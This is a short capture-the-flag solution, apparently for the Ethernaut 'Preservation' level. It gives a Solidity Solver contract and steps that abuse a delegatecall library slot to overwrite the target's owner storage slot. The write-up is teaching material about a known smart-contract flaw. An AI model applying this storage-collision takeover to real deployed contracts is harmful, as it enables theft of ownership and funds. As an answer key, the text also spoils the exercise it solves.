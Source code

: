 # Preservation

# How to complete
S1 - Deploy the following contract
```solidity
contract Solver {
    function setTime(uint256) public {
      // overwrite the owner slot
        assembly {
            sstore(2, 0xD1B9C015FBA1D7B631791A2201411a378fd562e7) // the address of the account you're solving with
        }
    }
}
```

S2 - Call `setFirstTime` on Preservation passing in the decimal value of the address of the Solver contract

After this step, the `timeZone1Library` will hold the address of our Solver contract.

S3 - Call `setFirstTime` with any value

Now calling `setFirstTime` will call the `setTime` function in the Solver, overwriting slot 2 (the `owner` slot) of Preservation with the address of your choice.
